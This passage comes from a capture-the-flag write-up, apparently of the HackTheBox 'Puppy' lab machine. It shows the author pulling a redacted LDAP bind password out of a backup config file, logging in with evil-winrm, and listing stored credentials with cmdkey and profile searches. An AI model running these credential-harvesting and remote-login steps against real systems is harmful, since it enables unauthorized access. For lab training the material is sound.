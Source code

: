 There's a Backups folder, inetpub, and StorageReports.
I went straight to to the backups folder, which contained a zipped site archive

```powershell
expand-archive site-backup-2024-12-30.zip
cd site-backup-2024-12-30/puppy
gc nms-auth-config.xml.bak
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password><**REDACTED**></bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

And we have another potential credential.
Looking at bloodhound, this user seems to have an admin account as well, so if this login works, it's likely going to contain some passageway to the admin credentials, at least that was my hunch.

```bash
evil-winrm -i $IP -u steph.cooper -p $PASS
```


## {{ page.table_of_contents[3] }} <a name="{{ page.table_of_contents[3] | downcase | replace: ' ', '-' }}"></a>


So, because I suspected this account has the password for the the steph.cooper_adm account, I will be focusing al the enumeration on random things surrounding this account.

```powershell
gci env:

gci $env:USERPROFILE -Recurse -Force # Look for anything out of the ordinary

cmdkey /list
```

